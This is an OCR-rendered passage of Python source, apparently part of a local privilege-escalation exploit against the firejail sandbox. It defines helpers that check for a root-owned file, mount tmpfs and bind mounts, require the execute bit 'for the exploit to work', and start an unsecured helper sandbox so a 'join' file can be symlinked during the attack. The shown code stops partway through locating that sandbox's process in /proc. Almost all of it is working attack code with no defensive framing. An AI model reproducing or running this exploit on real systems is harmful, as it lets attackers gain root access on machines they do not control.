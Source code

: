 ```python
# - size of 1 byte
# - the content is a single '1' ASCII character
def checkFile(f):
    s = os.stat(f)

    if s.st_uid != 0 or s.st_size != 1 or not stat.S_ISREG(s.st_mode):
        return False

    with open(f) as fd:
        ch = fd.read(2)

        if len(ch) != 1 or ch != "1":
            return False

    return True

def mountTmpFS(loc):
    subprocess.check_call("mount -t tmpfs none".split() + [loc])

def bindMount(src, dst):
    subprocess.check_call("mount --bind".split() + [src, dst])

def checkSelfExecutable():
    s = os.stat(__file__)

    if (s.st_mode & stat.S_IXUSR) == 0:
        printe(f"{__file__} needs to have the execute bit set for the exploit to work. Run `chmod +x {__file__}` and try again.")

# This creates a "helper" sandbox that serves the purpose of making available
# a proper "join" file for symlinking to as part of the exploit later on.
#
# Returns a tuple of (proc, join_file), where proc is the running subprocess
# (it needs to continue running until the exploit happened) and join_file is
# the path to the join file to use for the exploit.
def createHelperSandbox():
    # just run a long sleep command in an unsecured sandbox
    proc = subprocess.Popen(
            "firejail --noprofile -- sleep 10d".split(),
            stderr=subprocess.PIPE)

    # read out the child PID from the stderr output of firejail
    while True:
        line = proc.stderr.readline()
        if not line:
            raise Exception("helper sandbox creation failed")

        # on stderr a line of the form "Parent pid <ppid>, child pid <pid>" is output
        line = line.decode('utf8').strip().lower()
        if line.find("child pid") == -1:
            continue

        child_pid = line.split()[-1]

        try:
            child_pid = int(child_pid)
            break
        except Exception:
            raise Exception("failed to determine child pid from helper sandbox")

    # We need to find the child process of the child PID, this is the
    # actual sleep process that has an accessible root filesystem in /proc
    children = f"/proc/{child_pid}/task/{child_pid}/children"
```